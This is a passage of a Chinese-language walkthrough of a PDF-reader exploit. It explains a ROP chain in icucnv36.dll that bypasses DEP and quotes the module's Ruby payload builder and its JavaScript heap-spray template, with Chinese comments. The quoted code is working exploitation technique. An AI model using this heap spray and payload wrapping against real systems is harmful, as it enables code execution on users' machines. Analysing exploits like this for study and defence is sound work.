 ```asm
#0x0000258b,   # ??
#0x4d4d4a8a,   # ??
```

这段 payload 同样包含了一条 ROP 链，且其中的 ROP Gadget 均位于未开启 ASLR 的 icucnv36.dll 库中，其执行内容为调用四个函数，分别是

- CreateFileA 创建一个文件或设备，payload 创建了一个名为iso88591的文件，且该文件可读可写可执行
- CreateFileMappingA 创建文件映射内核对象，文件与物理页映射，payload 将创建的文件映射到了物理内存地址
- MapViewOfFile 将一个文件映射对象映射到当前应用程序的地址空间。payload 将创建的文件映射到了程序所处的虚拟内存地址空间
- memcpy 将源地址的内容复制到目的地址，payload 将 0x1000 字节

即通过前三个函数创建一个可读可写的内存段，并将 shellcode 复制到该内存段中，进而绕过 DEP 执行 shellcode。
在这之后，exp 创建了一段 JavaScrip 代码，并将上述 payload 及 shellcode 封装到了 JS 代码中，其中

```ruby
payload_buf = ''
payload_buf << stack_data
payload_buf << encoded_payload
escaped_payload = Rex::Text.to_unescape(payload_buf)
var_unescape  = rand_text_alpha(rand(100) + 1)
var_shellcode = rand_text_alpha(rand(100) + 1)
var_start     = rand_text_alpha(rand(100) + 1)
var_s         = 0x10000
var_c         = rand_text_alpha(rand(100) + 1)
var_b         = rand_text_alpha(rand(100) + 1)
var_d         = rand_text_alpha(rand(100) + 1)
var_3         = rand_text_alpha(rand(100) + 1)
var_i         = rand_text_alpha(rand(100) + 1)
var_4         = rand_text_alpha(rand(100) + 1)
```

用于封装 payload 的格式化 JS 代码为

```JavaScript
// 重命名函数
var #{var_unescape} = unescape;
// 编码 payload
var #{var_shellcode} = #{var_unescape}( '#{escaped_payload}' );
var #{var_c} = #{var_unescape}( "%" + "u" + "0" + "c" + "0" + "c" + "%u" + "0" + "c" + "0" + "c" );
// 不断拼接 #{var_c} 确保其足够大
while (#{var_c}.length + 20 + 8 < #{var_s}) #{var_c}+=#{var_c};
#{var_b} = #{var_c}.substring(0, (0x0c0c-0x24)/2);
// 拼接 shellcode 到  #{var_b} 的末尾
#{var_b} += #{var_shellcode};
// 拼接 #{var_c} 到  #{var_b} 的末尾
#{var_b} += #{var_c};
#{var_d} = #{var_b}.substring(0, #{var_s}/2);
// 不断拼接 #{var_d} 确保其足够大
while(#{var_d}.length < 0x80000) #{var_d} += #{var_d};
#{var_3} = #{var_d}.substring(0, 0x80000 - (0x1020-0x08) / 2);
var #{var_4} = new Array();
// Heap Spray
for (#{var_i}=0;#{var_i}<0x1f0;#{var_i}++) #{var_4}[#{var_i}]=#{var_3}+"s";
```
